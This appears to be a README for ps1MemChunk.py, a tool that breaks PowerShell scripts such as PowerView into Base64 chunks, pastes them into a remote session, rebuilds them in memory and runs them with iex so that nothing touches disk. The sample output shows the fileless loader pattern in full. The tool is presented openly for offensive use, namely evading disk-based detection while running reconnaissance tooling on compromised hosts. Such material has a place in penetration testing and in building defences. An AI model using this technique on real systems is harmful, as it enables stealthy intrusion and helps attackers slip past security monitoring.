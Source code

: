# ps1MemChunk.py

Build PS1 scripts in memory using Base64 chunks and copy-paste to remote PowerShell session, never touching disk.

Powershell has a command length limit of 8,191 characters. This limits the size of ps1 scripts that can be executed using the `powershell -enc` parameter. This script breaks a large ps1 file into chunks, base64 encodes them, and rebuilds the file in memory piece by piece, then executes it.

```
Usage:
   (local)  python ps1MemChunk.py -file PowerView.ps1 | clip
   (remote) [Ctrl-V] [Enter]
```

## Sample Output
```
python ps1MemChunk.py -url https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1

$tmpMemChunk  = ''
$tmpMemChunk += ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("NhZ2VBdHRyaWJ1...dGUoJ1UHJvY2VzcycsICcn")));
$tmpMemChunk += ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("m9yIGRvbWFpbiB...0cnVzdnaCBMREFQL0FEU0k")));
$tmpMemChunk += ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("vaW50ZXIgYnkgZ...mluZGlhlIHNpemUgb2YgdG")));
iex $tmpMemChunk
```
